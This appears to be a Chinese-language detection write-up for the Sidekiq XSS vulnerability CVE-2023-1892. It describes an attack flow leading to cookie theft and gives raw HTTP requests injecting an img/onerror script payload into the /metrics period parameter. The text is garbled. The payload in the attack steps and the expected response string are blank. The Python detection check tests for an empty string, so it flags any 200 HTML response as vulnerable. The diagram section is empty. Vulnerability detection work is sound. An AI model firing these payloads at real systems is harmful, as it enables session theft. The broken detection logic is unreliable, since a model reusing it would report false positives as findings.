

# Sidekiq < 7.0.8 XSS漏洞（CVE-2023-1892）检测说明

## 漏洞简介

Sidekiq 7.0.8 之前版本的管理面板存在跨站脚本（XSS）漏洞，攻击者可通过特定参数注入恶意脚本，导致在受害者浏览器中执行任意JavaScript代码。

## 影响范围

- 产品：Sidekiq
- 影响版本：< 7.0.8
- CVE编号：CVE-2023-1892
- 危害等级：Critical

## 漏洞原理

/metrics及相关接口未对period参数进行有效过滤，攻击者可注入恶意HTML标签和事件处理脚本，触发XSS。

## 利用方式与攻击流程

1. 攻击者访问/queues页面，确认目标为Sidekiq管理面板。
2. 构造带有XSS payload的GET请求，period参数注入`">`。
3. 服务器端未对参数进行安全处理，直接插入到页面中。
4. 受害者访问该页面时，恶意脚本在其浏览器中执行。
5. 攻击者可窃取cookie、劫持会话等。

## 探测原理与流程

### 探测请求的构造

```http
GET /metrics?period=%22%3E%3Cimg/src/onerror=alert(document.domain)%3E HTTP/1.1
Host: target.com

GET /metrics/SanityChecksJob?period=%22%3E%3Cimg/src/onerror=alert(document.domain)%3E HTTP/1.1
Host: target.com

GET /metrics/ActiveStorage::PurgeJob?period=%22%3E%3Cimg/src/onerror=alert(document.domain)%3E HTTP/1.1
Host: target.com
```

- period参数注入了img标签和onerror事件。

### 预期响应与交互

- 响应体需包含``。
- 响应头包含`text/html`。
- HTTP状态码为200。

### 判定逻辑

```python
def is_vulnerable(response):
    if response.status_code == 200 and '' in response.text and 'text/html' in response.headers.get('content-type', ''):
        return True
    return False
```

### 检测流程Mermaid图



## 参考链接

- [huntr安全通告](https://huntr.com/bounties/e35e5653-c429-4fb8-94a3-cbc123ae4777)
- [Sidekiq官方修复commit](https://github.com/sidekiq/sidekiq/commit/458fdf74176a9881478c48dc5cf0269107b22214)
- [NVD官方漏洞库](https://nvd.nist.gov/vuln/detail/CVE-2023-1892) 